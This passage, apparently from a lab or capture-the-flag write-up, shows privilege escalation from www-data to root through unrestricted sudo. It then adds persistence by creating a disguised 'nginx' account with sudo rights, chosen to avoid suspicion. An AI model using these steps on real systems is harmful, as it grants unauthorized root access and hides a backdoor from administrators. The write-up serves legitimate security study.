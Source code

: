 {{< figure src="/ox-hugo/2025-08-11-194420_.png" >}}

### Elevating To root Via Overly Permissive `sudo` Permissions: {#elevating-to-root-via-overly-permissive-sudo-permissions}

If we check what commands the user `www-data` using can run as root using `sudo -l` we can see that they can run all commands without a password.
![](/ox-hugo/2025-08-11-193717_.png)
This means we can easily switch to a root shell using

```shell
sudo /bin/bash
```

{{< figure src="/ox-hugo/2025-08-11-194509_.png" >}}

Let's get our flag
![](/ox-hugo/2025-08-11-194534_.png)

## 4. Persistence: {#4-dot-persistence}

It wouldn't be a write up without some simple form of persistence would it?

### Creating a high privileged "service" account for persistence: {#creating-a-high-privileged-service-account-for-persistence}

We can create an account called "nginx" and give ourselves root privileges &amp; access to the bash shell. We will use this name as it's one you could see on a machine and will raise less suspicion.

{{< figure src="/ox-hugo/2025-08-11-194814_.png" >}}

```shell
sudo useradd -m -s /bin/bash nginx
```

- Creates a new user named `nginx`.
- `-m`: Creates a home directory for the user.
- `-s /bin/bash`: Sets the user's default shell to `/bin/bash`.



```shell
sudo usermod -aG sudo nginx
```

- Adds the `nginx` user to the `sudo` group.
- `-a`: Appends the user to the group (avoids overwriting existing groups).
- `-G sudo`: Specifies the `sudo` group.



```shell
sudo passwd nginx
```

- Sets or updates the password for the `nginx` user.
- Prompts us to add a new password and confirms it.
